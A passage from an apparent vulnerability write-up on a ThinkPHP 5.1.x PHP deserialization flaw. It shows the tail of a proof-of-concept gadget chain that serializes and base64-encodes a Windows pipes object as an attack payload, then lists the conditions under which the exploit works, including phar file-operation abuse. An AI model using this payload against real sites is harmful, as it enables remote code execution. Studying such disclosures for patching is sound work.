 ```php
    }
}

namespace think\model;
use think\Model;

class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

<img src="https://pic.imgdb.cn/item/61227c6e44eaada739f8c422.png" alt="">


## Vulnerability Exploit Conditions
- The ThinkPHP 5.1.X framework used to meet any of the following conditions:
1. Use deserialization operation directly without filtering
2. Files can be uploaded and the parameters of the file operation function are controllable, and special characters such as:/, phar are not filtered.